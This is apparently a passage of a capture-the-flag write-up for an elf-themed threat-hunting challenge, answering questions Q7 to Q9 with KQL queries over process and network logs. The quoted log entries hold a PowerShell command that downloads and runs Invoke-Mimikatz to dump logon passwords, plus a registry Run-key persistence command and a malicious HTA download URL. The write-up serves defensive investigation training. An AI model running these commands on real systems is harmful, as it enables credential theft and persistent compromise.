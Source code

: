 
```json
"timestamp": 2024-12-10T00:00:00Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords",
"process_name": cmd.exe,
"process_hash": acb984e77fe41893cc10827bb8c5f4d97632b9fc76b33748e947183caa48919a,
"hostname": WebApp-ElvesWorkshop,
"username": seadmin
```

Q7

```sql
let nb_host =
Employees
| where name has "Boetie"
| project hostname;
ProcessEvents
| where hostname in (nb_host) and process_commandline contains "echo.exe"
| sort by timestamp desc
```

`2024-12-12T15:14:38Z`

Q8

```sql
OutboundNetworkEvents
| where url contains "holidaycandy.hta"
```

`http://compromisedchristmastoys.com/holidaycandy.hta`

`compromisedchristmastoys.com`

Q9

```sql
let nb_host =
Employees
| where name has "Boetie"
| project hostname;
ProcessEvents
| where hostname in (nb_host)
| sort by timestamp desc
```

```json
"timestamp": 2024-12-24T18:40:36Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": New-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force,
"process_name": powershell.exe,
"process_hash": b2bdf6438ab4329448e06b53f5acbbaa28f19c5d1f7d4107a1292c0366eed643,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```
